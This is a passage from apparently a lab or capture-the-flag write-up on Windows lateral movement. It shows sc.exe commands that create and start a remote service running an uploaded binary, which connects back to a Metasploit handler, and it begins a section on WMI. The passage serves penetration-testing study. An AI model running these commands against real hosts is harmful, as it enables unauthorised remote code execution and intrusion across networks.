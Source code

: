 * Create a new service remotely and associate it with the uploaded binary:

sc.exe \\\\\<target FQDN> create thmservice-9999 binpath= “%windir%\myservice.exe” start= auto

![](<../.gitbook/assets/8 (2).png>)

sc.exe \\\\\<target FQDN> start thmservice-9999

![](<../.gitbook/assets/9 (2).png>)

* Connection is received from the target on the MSG multi/handler listener.

![](<../.gitbook/assets/10 (2).png>)

### Moving Laterally Using WMI <a href="#yle6pc4ey90h" id="yle6pc4ey90h"></a>

* Windows Management Instrumentation (WMI) can be used to perform many lateral movement techniques.
* WMI allows administrators to perform standard management tasks that can be abused to perform lateral movement.

### Connecting to WMI from PowerShell <a href="#hbjwwv7bt9qg" id="hbjwwv7bt9qg"></a>

